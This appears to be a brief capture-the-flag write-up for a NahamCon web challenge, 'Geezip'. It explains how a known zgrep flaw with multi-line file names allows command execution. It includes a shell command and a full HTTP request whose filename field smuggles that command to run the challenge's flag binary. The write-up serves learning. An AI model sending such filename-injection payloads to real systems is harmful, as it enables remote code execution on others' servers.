 # Geezip

This is a web application that allows us to `gzip` content and provides a summary using `zgrep`. I found a recent [vulnerability](https://seclists.org/oss-sec/2022/q2/23) in `zgrep` that leads to RCE when using multi-line file names.

However, slashes (`/`) won't work in the filename, so we need to do something like the following to run the `get_flag` binary in the root directory:

```bash
cd .. && export PATH=. && get_flag
```

Placing the above payload into our filename:

```http
POST / HTTP/1.1
Host: challenge.nahamcon.com:31694
Content-Length: 91

...

Connection: close

action=submit&filename=|
;e cd+..+%26%26+export+PATH%3d.+%26%26+get_flag
#.gz&contents=test
```
